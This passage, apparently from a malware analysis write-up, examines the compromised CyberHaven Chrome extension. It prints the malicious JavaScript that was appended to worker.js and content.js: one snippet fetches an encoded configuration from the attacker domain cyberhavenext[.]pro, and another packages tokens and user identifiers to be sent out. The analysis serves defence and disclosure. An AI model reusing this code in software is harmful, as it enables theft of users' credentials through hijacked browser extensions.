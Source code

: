 ```javascript
			chrome.runtime.sendMessage({
				action: 'cyberhavenext-rjson',
				url: a + t
			}, async a => {
				const r = a.data;
				chrome.runtime.sendMessage({
					action: 'cyberhavenext-rjson',
					url: V + t
				}, async a => {
					const w = a.data;
					chrome.runtime.sendMessage({
						action: 'cyberhavenext-check-errors',
						url: o,
						pl: {
							dm: atob(e.cyberhavenextc),
							openapi_tk: t,
							openapi_u: i,
							cyberhavenext_cx: r,
							gpta: w,
							uid: s,
							hed: n,
							n: c,
							r: l,
							k: ''
						}
```

<u>Worker.js</u>

In order to understand how the data is exfiltrated, we need to look at the actions implemented in `worker.js` and how they interact with `content.js`. The legitimate `worker.js` from the CyberHaven extension had malicious code appended to it. This malicious script is responsible for retrieving the encoded configuration from the threat actor infrastructure, storing it in `cyberhavenext_ext_manage`. It also implements a switch/case statement with various actions based on messages sent from `content.js`.
Here we can see that the encoded configuration with the target URLs is retrieved from cyberhavenext\[.\]pro:

```javascript
 async function () {
	try {
		const t = await fetch('https://cyberhavenext[.]pro/ai-cyberhaven', {
			method: 'POST',
			headers: {
				Accept: 'application/json, application/xml, text/plain, text/html, *.*',
				'Content-Type': 'application/json'
			}
		});
		if (!t.ok)
			throw new Error(`HTTP error! Status: ${ t.status }`);
		const e = await t.json();
		await chrome.storage.local.set({ cyberhavenext_ext_manage: JSON.stringify(e) }), console.log('Data successfully stored!');
	} catch (t) {
		console.error('An error occurred:', t);
	}
```
We can also see that the `cyberhavenext-text` and `cyberhavenext-rjson` actions are parsers:
